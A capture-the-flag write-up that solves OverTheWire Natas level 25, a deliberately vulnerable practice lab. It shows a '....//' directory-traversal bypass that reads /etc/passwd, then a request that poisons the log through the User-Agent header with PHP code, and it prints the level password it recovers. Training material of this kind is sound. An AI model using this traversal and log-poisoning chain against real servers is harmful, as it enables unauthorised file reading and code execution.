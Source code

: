 # Natas-25

This application is [http://natas25.natas.labs.overthewire.org/?lang=en](http://natas25.natas.labs.overthewire.org/?lang=en) showing a quote in the language passed as the ?lang parameter in the get request . Looking at the source code

## Source:

```php
function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
```

The safeinclude() function takes path and checks if it contains ../ and if it does it logs it using logRequest() funtion . Also it uses str_replace() to replace “../” to “” on the $filename . This can be bypassed by sending ....// . The function will replace ../ in ....// to “” so the end result will be ../ .

Trying to read some local files like /etc/passwd .

```php
PAYLOAD : ?lang=....//....//....//....//....//etc/passwd

RESPONSE : 

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false Debian-exim:x:104:109::/var/spool/exim4:/bin/false messagebus:x:105:110::/var/run/dbus:/bin/false statd:x:106:65534::/var/lib/nfs:/bin/false sshd:x:107:65534::/var/run/sshd:/usr/sbin/nologin morla:x:1000:1000:morla,,,:/home/morla:/bin/bash ntp:x:108:113::/home/ntp:/bin/false mysql:x:109:114:MySQL Server,,,:/nonexistent:/bin/false natas31:x:30031:30031:natas level 31:/home/natas31:/bin/bash natas32:x:30032:30032:natas level 32:/home/natas32:/bin/bash natas0:x:30000:30000:natas level 0:/home/natas0:/bin/bash natas1:x:30001:30001:natas level 1:/home/natas1:/bin/bash natas2:x:30002:30002:natas level 2:/home/natas2:/bin/bash natas3:x:30003:30003:natas level 3:/home/natas3:/bin/bash natas4:x:30004:30004:natas level 4:/home/natas4:/bin/bash natas5:x:30005:30005:natas level 5:/home/natas5:/bin/bash natas6:x:30006:30006:natas level 6:/home/natas6:/bin/bash natas7:x:30007:30007:natas level 7:/home/natas7:/bin/bash natas8:x:30008:30008:natas level 8:/home/natas8:/bin/bash natas9:x:30009:30009:natas level 9:/home/natas9:/bin/bash natas10:x:30010:30010:natas level 10:/home/natas10:/bin/bash natas11:x:30011:30011:natas level 11:/home/natas11:/bin/bash natas14:x:30014:30014:natas level 14:/home/natas14:/bin/bash natas15:x:30015:30015:natas level 15:/home/natas15:/bin/bash natas16:x:30016:30016:natas level 16:/home/natas16:/bin/bash natas17:x:30017:30017:natas level 17:/home/natas17:/bin/bash natas20:x:30020:30020:natas level 20:/home/natas20:/bin/bash natas21:x:30021:30021:natas level 21:/home/natas21:/bin/bash natas22:x:30022:30022:natas level 22:/home/natas22:/bin/bash natas23:x:30023:30023:natas level 23:/home/natas23:/bin/bash natas25:x:30025:30025:natas level 25:/home/natas25:/bin/bash natas26:x:30026:30026:natas level 26:/home/natas26:/bin/bash natas29:x:30029:30029:natas level 29:/home/natas29:/bin/bash natas13:x:30013:30013:natas level 13:/home/natas13:/bin/bash natas24:x:30024:30024:natas level 24:/home/natas24:/bin/bash natas27:x:30027:30027:natas level 27:/home/natas27:/bin/bash natas18:x:30018:30018:natas level 18:/home/natas18:/bin/bash natas19:x:30019:30019:natas level 19:/home/natas19:/bin/bash natas34:x:30034:30034:natas level 34:/home/natas34:/bin/bash natas33:x:30033:30033:natas level 33:/home/natas33:/bin/bash natas30:x:30030:30030:natas level 30:/home/natas30:/bin/bash natas12:x:30012:30012:natas level 12:/home/natas12:/bin/bash natas28:x:30028:30028:natas level 28:/home/natas28:/bin/bash
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line 81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on line 82
```

We got LFI on the application . Unfortunately we cant read /etc/natas_webpass/natas26 because of this part of 

safeInclude() function . It checks if our input contains the string natas_webpass ,if it does it exits.

```php
if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
```

But we can read the log file using our previously discoverd  LFI . Looking at the LogRequest() function .

  

```php
function logRequest($message){
$log="[". date("d.m.Y H::i:s",time()) ."]";
$log=$log . " " . $*SERVER['HTTP_USER_AGENT'];
$log=$log . " \"" . $message ."\"\n";
$fd=fopen("/var/www/natas/natas25/logs/natas25*" . session_id() .".log","a");
fwrite($fd,$log);
fclose($fd);
}
```

Its logging the useragent that means we can inject into the userAgent field php code and use the LFI to execute it and get the result parsed in our browser . We can use the file_get_contents() to read the /etc/natas_webpass/natas26 to get the password . 

```php
GET /?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_oqtf85obv7iusikl0bmo2rgda4.log HTTP/1.1
Host: natas25.natas.labs.overthewire.org
User-Agent: <?php echo file_get_contents('/etc/natas_webpass/natas26');?>
```

On sending this request . We get the response .

```php
[17.03.2022 01::13:34] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T "Directory traversal attempt! fixing request."
```

```php
Username : Natas26
Password : oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```
